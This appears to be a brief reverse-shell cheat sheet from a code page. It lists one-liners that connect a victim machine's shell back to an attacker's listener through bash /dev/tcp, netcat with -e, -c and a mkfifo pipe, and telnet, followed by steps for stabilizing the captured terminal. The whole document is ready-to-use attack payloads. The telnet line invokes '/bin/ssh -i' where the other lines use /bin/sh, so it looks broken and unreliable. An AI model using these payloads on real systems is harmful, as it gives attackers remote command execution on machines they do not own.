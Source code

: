 ## Bash

```bash
bash -c 'bash -i >& /dev/tcp/<lhost>/<lport> 0>&1'
```

## Netcat

```bash
nc -e /bin/sh <LHOST> <LPORT>
nc -c /bin/sh <LHOST> <LPORT>
rm /tmp/y;mkfifo /tmp/y;cat /tmp/y|/bin/sh -i 2>&1|nc <LHOST> <LPORT> >/tmp/y
```

## Telnet

```bash
rm /tmp/y;mkfifo /tmp/y;cat /tmp/y|/bin/ssh -i 2>&1|telnet <LHOST> <LPORT> >/tmp/y
```

## Stabilizing shell

```text
SHELL=/bin/bash script -q /dev/null
[Ctrl + Z]
stty raw -echo
fg
reset
xterm
```

